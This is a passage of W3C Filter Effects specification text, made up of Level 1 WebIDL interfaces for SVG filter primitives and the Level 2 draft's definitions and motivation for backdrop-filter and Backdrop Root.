  readonly attribute SVGAnimatedNumber pointsAtY;
  readonly attribute SVGAnimatedNumber pointsAtZ;
  readonly attribute SVGAnimatedNumber specularExponent;
  readonly attribute SVGAnimatedNumber limitingConeAngle;
};
```

**Attributes:**

: ****`x`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute x on the given feSpotLight element.

  ****`y`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute y on the given feSpotLight element.

  ****`z`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute z on the given feSpotLight element.

  ****`pointsAtX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute pointsAtX on the given feSpotLight element.

  ****`pointsAtY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute pointsAtY on the given feSpotLight element.

  ****`pointsAtZ`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute pointsAtZ on the given feSpotLight element.

  ****`specularExponent`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute specularExponent on the given feSpotLight element.

  ****`limitingConeAngle`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute limitingConeAngle on the given feSpotLight element.

#### Interface SVGFEDisplacementMapElement {#filter-effects-1:InterfaceSVGFEDisplacementMapElement}

The **`SVGFEDisplacementMapElement`** interface corresponds to the feDisplacementMap element.

```webidl
[Exposed=Window]
interface SVGFEDisplacementMapElement : SVGElement {

  // Channel Selectors
  const unsigned short SVG_CHANNEL_UNKNOWN = 0;
  const unsigned short SVG_CHANNEL_R = 1;
  const unsigned short SVG_CHANNEL_G = 2;
  const unsigned short SVG_CHANNEL_B = 3;
  const unsigned short SVG_CHANNEL_A = 4;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedString in2;
  readonly attribute SVGAnimatedNumber scale;
  readonly attribute SVGAnimatedEnumeration xChannelSelector;
  readonly attribute SVGAnimatedEnumeration yChannelSelector;
};

SVGFEDisplacementMapElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Channel Selectors”:**

: ****`SVG_CHANNEL_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_CHANNEL_R`****

  : Corresponds to value 1 (mapping to the "R" channel).

  ****`SVG_CHANNEL_G`****

  : Corresponds to value 2 (mapping to the "G" channel).

  ****`SVG_CHANNEL_B`****

  : Corresponds to value 3 (mapping to the "B" channel).

  ****`SVG_CHANNEL_A`****

  : Corresponds to value 4 (mapping to the "A" channel).

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feDisplacementMap element.

  ****`in2`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in2 on the given feDisplacementMap element.

  ****`scale`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute scale on the given feDisplacementMap element.

  ****`xChannelSelector`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute xChannelSelector on the given feDisplacementMap element. Takes one of the SVG_CHANNEL_* constants defined on this interface.

  ****`yChannelSelector`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute yChannelSelector on the given feDisplacementMap element. Takes one of the SVG_CHANNEL_* constants defined on this interface.

#### Interface SVGFEDropShadowElement {#filter-effects-1:InterfaceSVGFEDropShadowElement}

The **`SVGFEDropShadowElement`** interface corresponds to the feDropShadow element.

```webidl
[Exposed=Window]
interface SVGFEDropShadowElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedNumber dx;
  readonly attribute SVGAnimatedNumber dy;
  readonly attribute SVGAnimatedNumber stdDeviationX;
  readonly attribute SVGAnimatedNumber stdDeviationY;

  undefined setStdDeviation(float stdDeviationX, float stdDeviationY);
};

SVGFEDropShadowElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feDropShadow element.

  ****`dx`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute dx on the given feDropShadow element.

  ****`dy`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute dy on the given feDropShadow element.

  ****`stdDeviationX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute stdDeviation on the given feDropShadow element. Contains the X component of attribute stdDeviation.

  ****`stdDeviationY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute stdDeviation on the given feDropShadow element. Contains the Y component of attribute stdDeviation.

**Methods:**

: ****`setStdDeviation(stdDeviationX, stdDeviationY)`****

  : Sets the values for attribute stdDeviation.

    ****`stdDeviationX`****

    : The X component of attribute stdDeviation.

    ****`stdDeviationY`****

    : The Y component of attribute stdDeviation.

#### Interface SVGFEFloodElement {#filter-effects-1:InterfaceSVGFEFloodElement}

The **`SVGFEFloodElement`** interface corresponds to the feFlood element.

```webidl
[Exposed=Window]
interface SVGFEFloodElement : SVGElement {
};

SVGFEFloodElement includes SVGFilterPrimitiveStandardAttributes;
```

#### Interface SVGFEGaussianBlurElement {#filter-effects-1:InterfaceSVGFEGaussianBlurElement}

The **`SVGFEGaussianBlurElement`** interface corresponds to the feGaussianBlur element.

```webidl
[Exposed=Window]
interface SVGFEGaussianBlurElement : SVGElement {

  // Edge Mode Values
  const unsigned short SVG_EDGEMODE_UNKNOWN = 0;
  const unsigned short SVG_EDGEMODE_DUPLICATE = 1;
  const unsigned short SVG_EDGEMODE_WRAP = 2;
  const unsigned short SVG_EDGEMODE_NONE = 3;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedNumber stdDeviationX;
  readonly attribute SVGAnimatedNumber stdDeviationY;
  readonly attribute SVGAnimatedEnumeration edgeMode;

  undefined setStdDeviation(float stdDeviationX, float stdDeviationY);
};

SVGFEGaussianBlurElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Edge Mode Values”:**

: ****`SVG_EDGEMODE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_EDGEMODE_DUPLICATE`****

  : Corresponds to value `duplicate`.

  ****`SVG_EDGEMODE_WRAP`****

  : Corresponds to value wrap.

  ****`SVG_EDGEMODE_NONE`****

  : Corresponds to value `none`.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feGaussianBlur element.

  ****`stdDeviationX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute stdDeviation on the given feGaussianBlur element. Contains the X component of attribute stdDeviation.

  ****`stdDeviationY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute stdDeviation on the given feGaussianBlur element. Contains the Y component of attribute stdDeviation.

  ****`edgeMode`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute edgeMode on the given feGaussianBlur element. Takes one of the SVG_EDGEMODE_* constants defined on this interface.

**Methods:**

: ****`setStdDeviation(stdDeviationX, stdDeviationY)`****

  : Sets the values for attribute stdDeviation.

    ****`stdDeviationX`****

    : The X component of attribute stdDeviation.

    ****`stdDeviationY`****

    : The Y component of attribute stdDeviation.

#### Interface SVGFEImageElement {#filter-effects-1:InterfaceSVGFEImageElement}

The **`SVGFEImageElement`** interface corresponds to the feImage element.

```webidl
[Exposed=Window]
interface SVGFEImageElement : SVGElement {
  readonly attribute SVGAnimatedPreserveAspectRatio preserveAspectRatio;
  readonly attribute SVGAnimatedString crossOrigin;
};

SVGFEImageElement includes SVGFilterPrimitiveStandardAttributes;
SVGFEImageElement includes SVGURIReference;
```

**Attributes:**

: ****`preserveAspectRatio`**,  of type SVGAnimatedPreserveAspectRatio, readonly**

  : Corresponds to attribute preserveAspectRatio on the given feImage element.

  ****`crossOrigin`**,  of type SVGAnimatedString, readonly**

  : The crossOrigin IDL attribute must reflect the crossorigin content attribute, limited to only known values.

#### Interface SVGFEMergeElement {#filter-effects-1:InterfaceSVGFEMergeElement}

The **`SVGFEMergeElement`** interface corresponds to the feMerge element.

```webidl
[Exposed=Window]
interface SVGFEMergeElement : SVGElement {
};

SVGFEMergeElement includes SVGFilterPrimitiveStandardAttributes;
```

#### Interface SVGFEMergeNodeElement {#filter-effects-1:InterfaceSVGFEMergeNodeElement}

The **`SVGFEMergeNodeElement`** interface corresponds to the feMergeNode element.

```webidl
[Exposed=Window]
interface SVGFEMergeNodeElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
};
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feMergeNode element.

#### Interface SVGFEMorphologyElement {#filter-effects-1:InterfaceSVGFEMorphologyElement}

The **`SVGFEMorphologyElement`** interface corresponds to the feMorphology element.

```webidl
[Exposed=Window]
interface SVGFEMorphologyElement : SVGElement {

  // Morphology Operators
  const unsigned short SVG_MORPHOLOGY_OPERATOR_UNKNOWN = 0;
  const unsigned short SVG_MORPHOLOGY_OPERATOR_ERODE = 1;
  const unsigned short SVG_MORPHOLOGY_OPERATOR_DILATE = 2;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedEnumeration operator;
  readonly attribute SVGAnimatedNumber radiusX;
  readonly attribute SVGAnimatedNumber radiusY;
};

SVGFEMorphologyElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Morphology Operators”:**

: ****`SVG_MORPHOLOGY_OPERATOR_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_MORPHOLOGY_OPERATOR_ERODE`****

  : Corresponds to value `erode`.

  ****`SVG_MORPHOLOGY_OPERATOR_DILATE`****

  : Corresponds to value `dilate`.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feMorphology element.

  ****`operator`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute operator on the given feMorphology element. Takes one of the SVG_MORPHOLOGY_OPERATOR_* constants defined on this interface.

  ****`radiusX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute radius on the given feMorphology element. Contains the X component of attribute radius.

  ****`radiusY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute radius on the given feMorphology element. Contains the Y component of attribute radius.

#### Interface SVGFEOffsetElement {#filter-effects-1:InterfaceSVGFEOffsetElement}

The **`SVGFEOffsetElement`** interface corresponds to the feOffset element.

```webidl
[Exposed=Window]
interface SVGFEOffsetElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedNumber dx;
  readonly attribute SVGAnimatedNumber dy;
};

SVGFEOffsetElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feOffset element.

  ****`dx`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute dx on the given feOffset element.

  ****`dy`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute dy on the given feOffset element.

#### Interface SVGFESpecularLightingElement {#filter-effects-1:InterfaceSVGFESpecularLightingElement}

The **`SVGFESpecularLightingElement`** interface corresponds to the feSpecularLighting element.

```webidl
[Exposed=Window]
interface SVGFESpecularLightingElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedNumber surfaceScale;
  readonly attribute SVGAnimatedNumber specularConstant;
  readonly attribute SVGAnimatedNumber specularExponent;
  readonly attribute SVGAnimatedNumber kernelUnitLengthX;
  readonly attribute SVGAnimatedNumber kernelUnitLengthY;
};

SVGFESpecularLightingElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feSpecularLighting element.

  ****`surfaceScale`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute surfaceScale on the given feSpecularLighting element.

  ****`specularConstant`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute specularConstant on the given feSpecularLighting element.

  ****`specularExponent`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute specularExponent on the given feSpecularLighting element.

  ****`kernelUnitLengthX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feSpecularLighting element.

  ****`kernelUnitLengthY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feSpecularLighting element.

#### Interface SVGFETileElement {#filter-effects-1:InterfaceSVGFETileElement}

The **`SVGFETileElement`** interface corresponds to the feTile element.

```webidl
[Exposed=Window]
interface SVGFETileElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
};

SVGFETileElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feTile element.

#### Interface SVGFETurbulenceElement {#filter-effects-1:InterfaceSVGFETurbulenceElement}

The **`SVGFETurbulenceElement`** interface corresponds to the feTurbulence element.

```webidl
[Exposed=Window]
interface SVGFETurbulenceElement : SVGElement {

  // Turbulence Types
  const unsigned short SVG_TURBULENCE_TYPE_UNKNOWN = 0;
  const unsigned short SVG_TURBULENCE_TYPE_FRACTALNOISE = 1;
  const unsigned short SVG_TURBULENCE_TYPE_TURBULENCE = 2;

  // Stitch Options
  const unsigned short SVG_STITCHTYPE_UNKNOWN = 0;
  const unsigned short SVG_STITCHTYPE_STITCH = 1;
  const unsigned short SVG_STITCHTYPE_NOSTITCH = 2;

  readonly attribute SVGAnimatedNumber baseFrequencyX;
  readonly attribute SVGAnimatedNumber baseFrequencyY;
  readonly attribute SVGAnimatedInteger numOctaves;
  readonly attribute SVGAnimatedNumber seed;
  readonly attribute SVGAnimatedEnumeration stitchTiles;
  readonly attribute SVGAnimatedEnumeration type;
};

SVGFETurbulenceElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Turbulence Types”:**

: ****`SVG_TURBULENCE_TYPE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_TURBULENCE_TYPE_FRACTALNOISE`****

  : Corresponds to value `fractalNoise`.

  ****`SVG_TURBULENCE_TYPE_TURBULENCE`****

  : Corresponds to value `turbulence`.

**Constants in group “Stitch Options”:**

: ****`SVG_STITCHTYPE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_STITCHTYPE_STITCH`****

  : Corresponds to value `stitch`.

  ****`SVG_STITCHTYPE_NOSTITCH`****

  : Corresponds to value `noStitch`.

**Attributes:**

: ****`baseFrequencyX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute baseFrequency on the given feTurbulence element. Contains the X component of the baseFrequency attribute.

  ****`baseFrequencyY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute baseFrequency on the given feTurbulence element. Contains the Y component of the baseFrequency attribute.

  ****`numOctaves`**,  of type SVGAnimatedInteger, readonly**

  : Corresponds to attribute numOctaves on the given feTurbulence element.

  ****`seed`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute seed on the given feTurbulence element.

  ****`stitchTiles`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute stitchTiles on the given feTurbulence element. Takes one of the SVG_TURBULENCE_TYPE_* constants defined on this interface.

  ****`type`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute type on the given feTurbulence element. Takes one of the SVG_STITCHTYPE_* constants defined on this interface.

---

## Filter Effects Module Level 2 {#filter-effects-2}

- **Shortname:** `filter-effects-2`
- **Editor's Draft:** [https://drafts.csswg.org/filter-effects-2/](https://drafts.csswg.org/filter-effects-2/)
- **Published TR:** [https://www.w3.org/TR/filter-effects-2/](https://www.w3.org/TR/filter-effects-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-02
- **Diff Specification Over:** [Filter Effects Module Level 1 (`filter-effects-1`)](#filter-effects-1)

### 1. Introduction {#filter-effects-2:intro}

*This section is non-normative*

A filter effect is a graphical operation that is applied to an element as it is drawn into the document. It is an image-based effect, in that it takes zero or more images as input, a number of parameters specific to the effect, and then produces an image as output. The output image is either rendered into the document instead of the original element, used as an input image to another filter effect, or provided as a CSS image value.

This is Level 2 of the Filter Effects Module. It is currently written as a "delta", describing any differences from Level 1.

> **Issue:** This specification was drafted for discussion, and does not yet have Working Group consensus. See [discussion in issue 53](https://github.com/w3c/fxtf-drafts/issues/53).

### 2. Backdrop filters: the `backdrop-filter` property {#filter-effects-2:BackdropFilterProperty}

The description of the `backdrop-filter` property is as follows:

| Field | Value |
| --- | --- |
| Name: | **backdrop-filter** |
| [Value:](#css-values-4:value-defs) | none \| `<filter-value-list>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements without the defs element and all graphics elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see prose in [Filter Effects 1 § 14. Animation of Filters](#filter-effects-1:animation-of-filters). |
| Media: | visual |

If the value of the `backdrop-filter` property is `none` then there is no filter effect applied. Otherwise, the list of functions are applied in the order provided.

#### 2.1. Filtering and Clipping {#filter-effects-2:backdrop-filter-operation}

An element (call it B) with a backdrop-filter property other than `none` is rendered as if the following steps are performed:

1. Copy the Backdrop Root Image into a temporary buffer, such as a raster image. Call this buffer T’.
2. Apply the backdrop-filter’s filter operations to the entire contents of T'.
3. If element B has any transforms (between B and the Backdrop Root), apply the **inverse** of those transforms to the contents of T’.
4. Apply a clip to the contents of T’, using the border box of element B, including [border-radius](#css-borders-4:border-radius) if specified. Note that the children of B are not considered for the sizing or location of this clip.
5. Draw all of element B, including its background, border, and any children elements, into T’.
6. If element B has any transforms, effects, or clips, apply those to T’.
7. Composite the contents of T’ into element B’s parent, using source-over compositing.

The first filter function or filter reference in the `<filter-value-list>` takes the element’s Backdrop Root Image as the input image. Subsequent operations take the output from the previous filter function or filter reference as the input image. The filter element reference functions can specify an alternate input, but still uses the previous output as its SourceGraphic.

Filter functions must operate in the sRGB color space.

If the filter functions list includes a [blur()](#filter-effects-1:blurEquivalent) filter, the filter will be applied with edgeMode="mirror", with the edge defined by the clipped, transformed border box of the element. See [§ 3 Backdrop Root](#filter-effects-2:BackdropRoot).

> **Note:** The effect of the backdrop-filter will not be visible unless some portion of element B is semi-transparent. Also note that any opacity applied to element B will be applied to the filtered backdrop image as well. Therefore, to create a "transparent" element that allows the full filtered backdrop image to be seen, you can use "background-color: transparent;".

A computed value of other than `none` results in the creation of both a [stacking context](#css2) [CSS21] and a [Containing Block](https://developer.mozilla.org/en-US/docs/Web/CSS/Containing_block) for absolute and fixed position descendants, unless the element it applies to is a document root element in the current browsing context.

> **Note:** This rule works in the same way as for the `filter` property.

### 3. Backdrop Root {#filter-effects-2:BackdropRoot}

The **Backdrop Root Image** for an element E is the final image that would be produced by the following steps:

1. Start at the Backdrop Root element that is the nearest ancestor of E.
2. Paint all content, in [painting order](#css2:painting-order), between (and including) the ancestor Backdrop Root element and element E.
3. Flatten the painted content into a 2D screen-space buffer.
4. Transform the border box of element E to 2D screen-space, and clip the final painted output to this border quad.

> **Issue:** This specification does not yet have Working Group consensus, specifically on the definition of Backdrop Root. See [discussion in issue 53](https://github.com/w3c/fxtf-drafts/issues/53).

> **Note:** No content that is a DOM ancestor of the Backdrop Root element should contribute to or affect the Backdrop Root Image.

A **Backdrop Root** is formed, anywhere in the document, by an element in any of the following scenarios. See [§ 3.2 Backdrop Root Triggers](#filter-effects-2:BackdropRootTriggers) for more details on each:

- The root element of the document (HTML).
- An element with a filter property other than "none".
- An element with an opacity value less than 1.
- An element with mask, mask-image, mask-border, or clip-path properties with values other than “none”.
- An element with a backdrop-filter value other than "none".
- An element with a mix-blend-mode value other than "normal".
- An element with a will-change value specifying any property that would create a Backdrop Root on non-initial value.

> **Note:** this definition encompases fewer element types than the definition for a Stacking Context. In particular, a Backdrop Root is not formed by elements with z-index applied, fixed or sticky-positioned elements, and elements with transforms applied. This allows elements with backdrop-filter or mix-blend-mode to apply to elements higher up the DOM tree than would otherwise apply if they stopped at the parent Stacking Context. For example, a container can be used to contain elements with backdrop-filter applied, and that container can use transforms for animation or positioning, while still allowing the backdrop-filter to apply to the background behind the container.

#### 3.1. Motivation {#filter-effects-2:BackdropRootMotivation}

*This section is non-normative*

There are currently three related, but distinct, concepts in the web platform:

- The [Stacking Context](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_Positioning/Understanding_z_index/The_stacking_context). A Stacking Context is induced by many different types of element properties, and is primarily related to defining the painting (Z) order of elements.
- The [Containing Block](https://developer.mozilla.org/en-US/docs/Web/CSS/Containing_block). A Containing Block is also induced by several types of element properties, and is primarily related to defining how layout (X/Y) is performed for elements.
- The [3D Rendering Context](#css-transforms-2:3d-rendering-contexts). A 3D Rendering Context is induced by several properties, mainly transform-style, but also any of the grouping properties, and is primarily related to defining the relevant coordinate space for 3D transforms.

There is an important motivation for the creation of a separate web platform concept for the Backdrop Root, rather than just re-using an existing concept. There are essentially two other choices that might be used as a definition of the "backdrop": 1) “everything that painted before, up to the root node”, or 2) “everything up to the parent stacking context”. However, there are ambiguities with definition #1, and excessive limitations with definition #2. Therefore, the Backdrop Root concept strikes a balance between the two.

In particular, it is important to note that including “everything that paints before” an element is ambiguous in the case where an ancestor of the element contains filtering and/or opacity. Because those effects are inherited by descendant elements, including the element containing backdrop-filter or mix-blend-mode, it is not clear “when” to apply the effect. Filters and opacity create a stacking context, and the [css filter-effect specification](#filter-effects-1:FilterProperty) states that “All the [Stacking Context] descendants are rendered together as a group with the filter effect applied to the group as a whole.” If, somewhere inside that stacking context, an element contains a backdrop-filter property other than “none”, then it is impossible to honor the preceding sentence. At the point of the backdrop-filtered element, all of the (partially-painted) contents of the stacking context need to be fully rendered, including applied filters, opacity, and blending with the backdrop, and the resulting image needs to be used as the input to the backdrop-filtered element. That fundamentally breaks the atomicity of the stacking context. And the ambiguity arises from the need, at the end of rendering the fully-completed stacking context, to apply those filters and opacity **again** to the completed rendering. The filters and opacity will, at this point, be applied twice to the portion of the image that has been backdrop-filtered. This situation grows exponentially worse if backdrop-filters are nested inside each other. For this reason, it is necessary to prevent the backdrop-filter from “seeing" above nodes that have filters, opacity, and the other conditions listed above in the definition of the Backdrop Root.

Performance would also be an issue, if backdrop-filter and mix-blend-mode were defined to filter "everything" that comes before them on the page. Each application of backdrop-filter or mix-blend-mode would require a separate rendering pass, to temporarily finish any partially-complete stacking contexts, and get the "final" output that would appear behind each element. That would double the required rendering time, and would potentially require twice the memory usage and GPU bandwidth to store the intermediate graphics texture holding the contents to be filtering. And assuming nested backdrop-filters or mix-blend-mode elements were allowed, this doubling would become an exponential performance breakdown. Clearly, this is not a scalable approach.

> **Example:** Given the following html code:
>
> ```
> <html style="background:lightgrey;">
>   <div class="box">
>     <b>"Box"</b><br><br>Lorem ipsum dolor sit amet, consectetur adipiscing elit,
>     sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim
>     ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip
>     ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate
>     velit esse cillum
>     <div class="dialog"></div>
>   </div>
> </html>
> ```
>
> And the following style rules:
>
> ```
> <style>
>   div {
>     position: absolute;
>     width: 200px;
>     height: 200px;
>     top: 70px;
>     left: 70px;
>   }
>   .box {
>     background: white;
>     filter: invert(1);
>   }
>   .dialog {
>     border: 10px solid blue;
>     backdrop-filter: blur(2px);
>   }
> </style>
> ```
>
> Consider the sequence of painting operations to produce the final result, assuming that the "dialog" element accesses **everything behind it**, all the way to the root element. **Important note:** this is **not** how the Backdrop Root is defined - this example is intended to illustrate why a Backdrop Root is formed by elements containing filters.
>
> 
>
> **Step 1.** "Box" is rendered, but filters are not yet applied.
>
> 
>
> **Step 2.** "Dialog" is about to be rendered, but it has backdrop-filter applied. Since, for this example, the backdrop-filter "sees" all the way to the root, the "Box" element needs to be temporarily "completed" so that the final product can be used as input to "Dialog". This means applying its "filter: invert(1)" style. Note, this is where the atomicity of the Stacking Context created by "Box" is broken. This is also where the performance penalty applies - the GPU draw work that is performed here will end up being done twice.
>
> 
>
> **Step 3.** Start painting the "Dialog" element by reading back its backdrop image, applying the "backdrop-filter: blur(2px)" filter, and cropping those results to the border box of "Dialog". (The dotted black border has been added here for clarity: this is the border box for the "Dialog" element.)
>
> 
>
> **Step 4.** Now that the backdrop-filtered contents have been read back and filtered, discard the previously "completed" Box element and go back to the unfiltered version. Note that you can now see the black text at the bottom bleeding through the white, blurred version inside "Dialog".
>
> 
>
> **Step 5.** Draw the contents of the "Dialog" element - the **blue** border.
>
> 
>
> **Step 6.** Complete the Stacking Context formed by the "Box" element - apply the "filter: invert(1)" to "Box" and all of its contents, including the now-completed "Dialog" element. Note that the area inside the yellow "Dialog" element has been inverted twice - it appears white. Also note that the text outside "Box" has been drawn in blurred black text over the top of un-blurred white text, and the black edge of "Box" shows through the now-white blurred edge of "Box". None of these visual effects is expected or intuitive.

> **Example:** Opacity poses much the same problem that filter does. Using the example above, but with the `filter: invert(1);` style replaced with `opacity: 0.5;` the results are similarly unintuitive. **Important note:** the left image below does **not** represent how the Backdrop Root is defined - this example is intended to illustrate why a Backdrop Root is formed by elements containing opacity less than 1.
>
>       
>
> The left image is the final result of rendering, assuming the Backdrop Root includes everything on the page. Note that the blurred region inside the blue border is very faint. It is rendered at 0.25 opacity (double-counted), instead of the 0.5 opacity inherited from the "Box" element. The right image is the final result using the correct definition of Backdrop Root. The blurred region inside the blue border has opacity 0.5, as expected.

> **Example:** Because masks effectively change the opacity of parts of the elements they are masking, the behavior for mask operations is quite similar to that for elements with opacity applied. Using the same example as above, but replacing the filter/opacity style line with `-webkit-mask-image: linear-gradient(to top, transparent 25%, black 75%);` the results are quite similar. The masked area is applied twice, meaning the alpha channel is effectively squared. **Important note:** the left image below does **not** represent how the Backdrop Root is defined - this example is intended to illustrate why a Backdrop Root is formed by elements containing masks.
>
>       
>
> The left image is the final result of rendering, assuming the Backdrop Root includes everything on the page. Note that the gradient applied to the blurred region inside the blue border (but not the border itself) is very faint at the bottom. The opacity of the mask has been applied twice, so the gradient is no longer a linear gradient, but is instead a quadratic gradient. The right image is the final result using the correct definition of Backdrop Root. The mask is applied correctly as a linear gradient for both the blue border and the blurred region inside.

#### 3.2. Backdrop Root Triggers {#filter-effects-2:BackdropRootTriggers}

*This section is non-normative*

> **Issue:** This specification does not yet have Working Group consensus, specifically on the definition of Backdrop Root. See [discussion in issue 53](https://github.com/w3c/fxtf-drafts/issues/53).

As described in [§ 3.1 Motivation](#filter-effects-2:BackdropRootMotivation), several operations pose fundamental problems for operations that need to read back content that was painted before, and then re-paint that content (possibly filtered or blended) again. The list of element types that trigger a [§ 3 Backdrop Root](#filter-effects-2:BackdropRoot) each pose one of these problems. Some are obvious and some are more nuanced. This section describes why each trigger is necessary.

Obvious triggers:

- **The root element.** There is nothing above the root element, so it must form a Backdrop Root.
- **Will-change values.** The will-change hint means that the element might take on a value that creates a Backdrop Root. For this reason, the Backdrop Root should be created immediately, to avoid changing it (and therefore changing the rendered appearance) during animation.

Less obvious triggers:

- **An element with a filter.** Filters apply to an element and all of its children, rendered together. Allowing the Backdrop Root to read back content above a filtered element necessitates breaking the atomicity of the filter, with undefined results. See [§ 3.1 Motivation](#filter-effects-2:BackdropRootMotivation) for more a much more detailed explanation and some examples.
- **An element with opacity < 1.** Elements with an opacity value less than 1.0 suffer from a very similar problem as elements with filters. Because the opacity applies to the element and all children, rendered together, the opacity value would be "applied twice" if the Backdrop Root Image were to read back content above the semi-transparent element. Effectively, the backdrop-filtered portion of the backdrop would be rendered with (Opacity)^2. See [§ 3.1 Motivation](#filter-effects-2:BackdropRootMotivation) for more details and an example.
- **CSS Masks.** There are two reasons why a CSS mask triggers a Backdrop Root element. The first is that masks are exactly analogous to the opacity problem described in the bullet above. Masks can contain regions of partial opacity (e.g. `style="mask-image: linear-gradient(to bottom, transparent 25%, black 75%);"`). If the Backdrop Root Image were to read back content above the mask, those partially-opaque regions would be double-applied to the final backdrop image, which would result in incorrect rendering. See [§ 3.1 Motivation](#filter-effects-2:BackdropRootMotivation) for more details and an example.
- **Elements with clip-path.** These elements are effectively rendered as if they were a mask. While in general that mask doesn’t explicitly contain partially-opaque regions, it is usually rendered with antialiasing, which introduces semi-transparent portions around the edges of the clip. Therefore, for the same reasons as described above for masks, those semi-transparent regions will be incorrectly rendered, producing visual artifacts near the edges of the clip. Disabling antialiasing for clip-paths would produce poor rendering quality, and relaxing the Backdrop Root restriction on these elements would similarly lead to observable artifacts.
- **Backdrop-filter and mix-blend-mode.** These elements themselves must form a Backdrop Root for two reasons. First, they cause the same problems that filters and opacity cause: there is an ambiguity about what constitutes the image to be filtered or blended, given the atomicity of the operations. Second, there would likely be an exponential performance degradation in the case of nested backdrop-filter or mix-blend-mode elements, due to the need to re-paint the content behind each element. Each nesting level will double the number of these required re-paint cycles, leading to significant performance problems.

For all of the above triggers, performance is also an important motivation. In all of these cases, relaxing the Backdrop Root constraint would lead to a potential doubling of the CPU/GPU memory and bandwidth. See [§ 3.1 Motivation](#filter-effects-2:BackdropRootMotivation) for a more detailed discussion.

#### 3.3. Mix Blend Mode {#filter-effects-2:mix-blend-mode}

*This section is non-normative*

